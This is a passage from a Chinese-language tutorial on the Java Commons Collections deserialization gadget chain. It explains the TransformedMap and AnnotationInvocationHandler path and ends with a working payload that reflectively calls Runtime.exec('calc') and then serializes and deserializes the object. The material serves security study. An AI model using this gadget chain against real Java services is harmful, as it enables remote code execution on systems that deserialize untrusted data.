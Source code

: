 

终于到了 memberValue.setValue 方法，但是这里的参数并不是我们想要的 Runtime.class。我们可以在 TransformedMap.checkSetValue 处下一个断点。



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747128333-6b11dbad-2c09-4cb9-9602-70fff4be8af2.png)



这里的 valueTransformer 是我们传入的 chainedTransformer ，调用 transform 方法，但是 value 并不是我们想要的 Runtime.class 。



怎么解决这个问题呢？



Common-collection 中提供了一个 ConstantTransformer，这个类在调用 transform 方法时，无论传入什么参数，都返回自己的 iConstant 成员变量。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747147206-05e52386-0454-429f-9e91-382201925157.png)

而 iConstant 成员变量是在构造器中赋值的，因此我们可控。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747180645-9ef818f2-6a00-4dd9-942b-aa91c0e1e409.png)



所以，我们在 chainedTransformer 中可以再添加一个 ConstantTransformer，即使在 AnnotationInvocationHandler.readObject 中调用 setValue 方法时参数并不是 Runtime.class ，ConstantTransformer 也能直接返回 Runtime.class。



解决了上述两个问题之后，最终 payload 如下：



```java
public static void TestInvokerTransformer() throws Exception{
    ChainedTransformer chainedTransformer = new ChainedTransformer(
            new Transformer[]{
                    new ConstantTransformer(
                            Runtime.class
                    ),
                    new InvokerTransformer(
                            "getMethod",
                            new Class[]{String.class,Class[].class},
                            new Object[]{"getRuntime",null}
                    ),
                    new InvokerTransformer(
                            "invoke",
                            new Class[]{Object.class,Object[].class},
                            new Object[]{null,null}
                    ),
                    new InvokerTransformer(
                            "exec",
                            new Class[]{String.class},
                            new Object[]{"calc"}
                    )
            });

    HashMap<String,String> map = new HashMap<>();
    map.put("value","222");

    Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);

    Runtime r = Runtime.getRuntime();

    Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = c.getDeclaredConstructor(Class.class,Map.class);
    constructor.setAccessible(true);
    serialize(constructor.newInstance(Target.class, transformedMap));
    unserialize("abc.ser.bin");
```